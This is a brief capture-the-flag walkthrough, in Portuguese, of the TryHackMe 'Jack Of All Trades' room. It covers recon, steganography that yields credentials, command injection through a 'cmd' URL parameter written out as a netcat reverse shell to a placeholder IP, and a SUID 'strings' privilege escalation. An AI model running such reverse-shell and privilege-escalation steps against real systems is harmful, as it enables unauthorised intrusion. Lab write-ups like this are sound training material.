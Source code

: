#ctf
# Jack Of All Trades
https://tryhackme.com/room/jackofalltrades

## Recon

### NMAP

PORT   STATE SERVICE VERSION
    22/tcp open  http    Apache httpd 2.4.10 ((Debian))
    80/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


### Stego

- No site existe uma base64 que ao decodificar, nos da a senha __u?WtKSraq__
- Essa senha consegue abrir as imagens stego.jpg e __header.jpg__ onde tem a conta cms -> jackinthebox:TplFxiSHjY

### RCE

- Na página principal existe um comentario de um página __/recovery.php__
- As credenciais escondidas no __header.jpg__ são usadas para login
- O /index.php aceita parametro __cmd__ -> /index.php?cmd=nc <IP> 4444 e- /bin/sh

## Privesc

- Em /home existe uma lista com hashes da senha de jack para ssh -> jack:ITMJpGGIqg1jn?>@
- O binário /usr/bin/strings tem permissão suid que da para pegar a ultima flag em /root/root.txt
